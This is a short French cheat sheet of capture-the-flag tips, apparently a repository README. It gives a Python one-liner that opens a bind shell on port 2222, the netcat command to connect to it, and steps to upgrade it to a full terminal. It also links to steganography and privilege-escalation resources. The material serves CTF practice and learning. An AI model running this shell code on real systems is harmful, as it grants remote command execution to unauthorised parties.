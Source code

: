 Tips et tools utiles pour les CTFs

# Tips
## Unix 
Merci à @Clayno pour ses tips!

### Obtenir un shell
Pour ouvrir une connexion sur le port 2222:
```
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
La connexion sur l'hôte se fait via 
```
nc -nv [adresse] 2222
```
Améliorer le shell en pty et avoir l'autocomplétion:
```
python -c "import pty; pty.spawn('/bin/bash')"
CTRL+Z
stty raw -echo
fg

#### Dans le webshell ###
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```
### Tools pour palier le manque d'inspiration 
Checker les différents tools : https://github.com/zardus/ctf-tools

## Steganographie
Tester zsteg

Cheat sheet : https://pequalsnp-team.github.io/cheatsheet/steganography-101


## Privesc

Liste d'exploit : https://github.com/FuzzySecurity/Unix-PrivEsc
Privesc checker : https://github.com/pentestmonkey/unix-privesc-check (ESSAYER LES DEUX BRANCHES)
